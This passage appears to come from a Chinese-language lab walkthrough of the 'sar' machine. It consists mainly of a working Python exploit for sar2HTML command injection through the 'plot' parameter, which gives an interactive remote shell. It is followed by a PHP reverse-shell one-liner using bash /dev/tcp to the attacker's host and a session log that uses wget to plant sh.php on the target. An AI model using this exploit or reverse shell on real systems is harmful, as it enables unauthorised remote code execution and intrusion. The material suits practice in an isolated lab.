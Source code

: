   #!/usr/bin/env python3
  
  import requests
  import re
  from cmd import Cmd
  
  url = input("Enter The url => ")
  
  class Terminal(Cmd):
      prompt = "Command => "
      def default(self, args):
          exploiter(args)
  
  def exploiter(cmd):
      global url
      sess = requests.session()
      output = sess.get(f"{url}/index.php?plot=;{cmd}")
      try:
          out = re.findall("<option value=(.*?)>", output.text)
      except:
          print ("Error!!")
      for ouut in out:
          if "There is no defined host..." not in ouut:
              if "null selected" not in ouut:
                  if "selected" not in ouut:
                      print (ouut)
      print ()
  
  if __name__ == ("__main__"):
      terminal = Terminal()
      terminal.cmdloop()                                                                                                                    
  ```

### 获得初始shell

1. 本地创建反弹shell`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.2/1234 0>&1'");`
2. 使用`wget`将文件下载后重命名为`.php`文件
3. 开启本机监听,接收反弹shell

- ```shell
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/rsa]
  └─$ python3 49344.py
  Enter The url => http://192.168.2.10/sar2HTML/
  Command => whoami
  www-data
  
  Command => uname -a
  Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  
  Command => sudo -l
  
  Command => wget http://192.168.2.2/remotesh.txt -O sh.php
  
  Command => ls
  LICENSE
  index.php
  sar2html
  sarDATA
  sarFILE
  sh.php
  
  Command => pwd
  /var/www/html/sar2HTML
  
  Command => vim sh.php
  ```
